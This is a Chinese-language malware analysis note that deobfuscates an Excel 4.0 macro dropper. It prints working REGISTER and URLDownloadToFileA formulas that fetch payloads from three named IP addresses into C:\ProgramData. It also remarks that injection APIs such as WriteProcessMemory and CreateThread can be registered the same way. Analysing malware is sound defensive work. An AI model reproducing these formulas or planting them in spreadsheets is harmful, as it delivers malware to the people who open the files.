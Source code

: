 ![](images/12.jpg)

注意查看完“求值”后要点击“中止”将程序中断，否则会继续执行恶意代码。

```=REGISTER(D21,Hertip&"FileA",Tiposa!D20,D23,,Tiposa!D22,Tiposa!D23)```

	=REGISTER("uRlMon","URLDownloadToFileA","JJCCBB","Drwrgdfghfhf",,1,9)

```=Drwrgdfghfhf(0,"h"&"t"&"tp"&":"&"/"&"/"&Tiposa!E21&Tiposa1!G11&Sheet2!K12,Tiposa1!E14&"a\Hroser1.ocx",0,0)```

```=Drwrgdfghfhf(0,"http://Tiposa!E21&Tiposa1!G11&".dat","C:\ProgramData\Hroser1.ocx",0,0)```

```Tiposa!E21=94.140.114.240/```

对于 ```=REGISTER("uRlMon","URLDownloadToFileA","JJCCBB","Drwrgdfghfhf",,1,9)``` ，

	
	REGISTER(module_name, procedure_name, type, alias, argument, macro_type, category)
	
	Module_name is the name of the DLL, for example "uRlMon" for C:\Windows\System32\urlmon.dll.
	Procedure_name is the name of the exported function in the DLL, for example "URLDownloadToFileA".
	Type is a string specifying the types of return value and arguments of the functions. More on this below（微软Excel4.0数据类型描述）.
	Alias is a custom name that you can give to the function, by which you can call it later.
	Argument can be used to name the arguments to the function, but is optional (and left blank in our code).
	Macro_type should be 1, which stands for function.
	Category is a category number (used in ancient Excel functionality). We can specify an arbitrary category number between 1 and 14 for our purpose.

[微软Excel4.0数据类型描述](https://support.microsoft.com/en-us/office/using-the-call-and-register-functions-06fa83c1-2869-4a89-b665-7e63d188307f?ui=en-us&rs=en-us&ad=us#__toc309221612)

The biggest challenge of getting Win32 API functions to work with XLM macros is matching the types that are expected by the Win32 API functions with available Excel 4.0 data types. 根据官网文档，"JJCCBB" 可能表示 the return value for this function is long int ("J"), long int , string ("C"), string ("C"), double , double respectively.

上面的一句话含义为 自定义一个函数名，调用系统自带的dll的导出函数的功能，可以调用的功能很多，自由发挥，例如 ```kernel32.VirtualAlloc``` 或 ```kernel32.WriteProcessMemory```、```kernel32.CreateThread``` 等。


Tiposa1!G11=NOW()

	=Drwrgdfghfhf(0,"http://94.140.114.240/"NOW()".dat","C:\ProgramData\Hroser1.ocx",0,0)

	=Drwrgdfghfhf(0,"http://194.156.98.30/"NOW()".dat","C:\ProgramData\Hroser2.ocx",0,0)

	=Drwrgdfghfhf(0,"http://144.217.50.246/"NOW()".dat","C:\ProgramData\Hroser3.ocx",0,0)

即

	=uRlMon.URLDownloadToFileA(0,"http://94.140.114.240/44617.771099537036.dat","C:\ProgramData\Hroser1.ocx",0,0)
```